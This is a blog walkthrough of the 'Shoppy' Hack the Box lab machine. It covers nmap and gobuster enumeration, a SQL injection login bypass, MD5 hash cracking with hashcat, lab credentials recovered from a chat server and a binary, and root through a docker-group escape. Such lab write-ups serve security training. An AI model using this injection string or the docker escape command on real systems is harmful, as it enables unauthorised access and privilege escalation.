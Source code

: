 +++
author = "Nick"
categories = ["hack the box", "Easy"]
date = 2023-01-14T11:00:00.000Z
publishDate = 2023-01-14T11:00:00.000Z
description = ""
draft = false
thumbnail = "/images/shoppy/logo.png"
slug = "hack-the-box-shoppy"
summary = ""
tags = ["hack the box", "Easy", "Linux", "Burpsuite", "gobuster", "SQL Injection", "container", "gtfobins", "hashcat"]
title = "Hack the Box - Shoppy"
url = "/hack-the-box-shoppy"
+++

Welcome back! Today we are going to be doing the Hack the Box machine - Shoppy. This machine is listed an as Easy machine. Let's start!

As usually, we start with an `nmap` scan. Here are the results:

```
Nmap scan report for 10.10.11.180
Host is up (0.080s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:05 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|     go_gc_d
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 30 Sep 2022 13:57:06 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 18
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 18
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 4.2374e-05
|     go_gc_duration_seconds{quantile="0.25"} 9.0354e-05
|_    go_gc_d
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.92%I=7%D=9/30%Time=6336F5B2%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,1000,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Fri,\x2
SF:030\x20Sep\x202022\x2013:57:05\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x2018\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\
SF:x20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20applicatio
SF:n\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc
SF:_cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc
SF:_cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x
SF:20TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_t
SF:otal_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_duration_seconds\x20A\x2
SF:0summary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collecti
SF:on\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_d
SF:uration_seconds{quantile=\"0\"}\x204\.2374e-05\ngo_gc_duration_seconds{
SF:quantile=\"0\.25\"}\x209\.0354e-05\ngo_gc_d")%r(HTTPOptions,152B,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Fri,\x2030\x20Sep\x202022\x2013:57:06\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x2018\n#\x20HELP\x20go_gc_cycl
SF:es_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_force
SF:d_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\
SF:n#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\
SF:x20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycl
SF:es_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x2018\n#\x20HEL
SF:P\x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20du
SF:ration\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_d
SF:uration_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x204
SF:\.2374e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x209\.0354e-05\n
SF:go_gc_d");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see three ports - `22`, `80` and `9093`. We also see that we should probably add `shoppy.htb` to our hosts file. We'll start up `burpsuite` and see what's happening on port `80`. We get a landing page saying that the service is coming soon. Looks like we'll start enumerating with `gobuster` and or `ffuf`.

Command:
`gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

Right away we see `/login` and `/admin`.

![](/images/shoppy/shoppy1.png)

We head over to the login screen. We try to login with some basic's like `admin` | `admin` and the such but nothing. When we try to give it a basic `SQL Injection` we get a `504 timeout`. There could be something here. After a while of trying all sorts of injections on the field, we land on `admin' || '1=1-- -` letting us login!

![](/images/shoppy/shoppy2.png)

Now that we're in we can see we have access to a `search for users` function. What are the chances we can use the same 'Always true' statement that logged us in, in this field? Sure enough, it also works. We are given a link to 'Download export' The export only contains two users - `josh` and `admin`.

![](/images/shoppy/shoppy3.png)

These hashes look to be `MD5` at first glace. We can crack those pretty easy this day in age.

Command:
`hashcat -m 0 '6ebcea65320589ca4f2f1ce039975995' /usr/share/wordlists/rockyou.txt`

And we get back a match:
`6ebcea65320589ca4f2f1ce039975995:remembermethisway`

So now we have a password for `Josh`. We aren't able to use it for `SSH` so we must be missing something. During our enumeration processes we didn't try to enumerate any subdomains. There very well could be another site being hosted. We'll take a pass with `gobuster` to see if we can enumerate anything additional.

Command:
`gobuster vhost -u shoppy.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt`

That didn't turn up any results. We'll try again with a different lists and we end up finding `mattermost.shoppy.htb`. We'll add this to our hosts file and see what's being hosted.

![](/images/shoppy/shoppy4.png)

Sure enough, there is a login right as we load the page. We are able to login as `josh`. Once we get logged we can dig around and see what we can find. We find an interesting tidbit - 

'Hey @jaeger, when I was trying to install docker on the machine, I started learn C++ and I do a password manager. You can test it if you want, the program is on the deploy machine.'

We can take a look at the 'Deploy Machine' on the side links and see that we have some credentials to that machine given to us - `jaeger`:`Sh0ppyBest@pp!`. Now we can test these credentials against `SSH` to see if we are able to log into that container.

We are able to log into that container and the `user.txt` flag is waiting for us! Now that we're on the box, and we know it's a container, we'll need to seek a way to break out. Generally to do that we need a method to `root`. Let's start to enumerate. A quick `sudo -l` shows we can run `/home/deploy/password-manager` as the `Deploy` user. This was probably the tool that was noted in `mattermost`. So let's try to run the app.

We see we are expected to answer the 'Master Password'.
![](/images/shoppy/shoppy5.png)

We try a few basic passwords but nothing works. So we run `strings` on the file and see something but no password:
![Strings command](/images/shoppy/shoppy6.png)

Next we try `cat`:
![cat command](/images/shoppy/shoppy7.png)

This time we have a bit more insight, we see the password as `Sample`. We plug it into the app and gain some new credentials - `deploy`:`Deploying@pp!`.

![](/images/shoppy/shoppy8.png)

Let's `SSH` into this container using these credentials. Now we're in with another account, let's enumerate. We aren't able to run `sudo` as the `deploy` user. So we'll get a copy of `linpeas` on the container and see what we mightr be able to find. We start up our `SimpleHTTPServer` and user `wget` to download the `linpeas` script. Then we run it.

We see that one of the 95%  Escalation Vectors that pops up is that the user belongs to the `Docker` group. So we can check [hatrick](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout) and [gtfo bins](https://gtfobins.github.io/gtfobins/docker/) for paths up. We will try the following:

Command:
`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

It works, we escalate to `root` in the container!

![Priv Esc works!](/images/shoppy/shoppy9.png)

We then `cat` the `root.txt` flag and box is completed!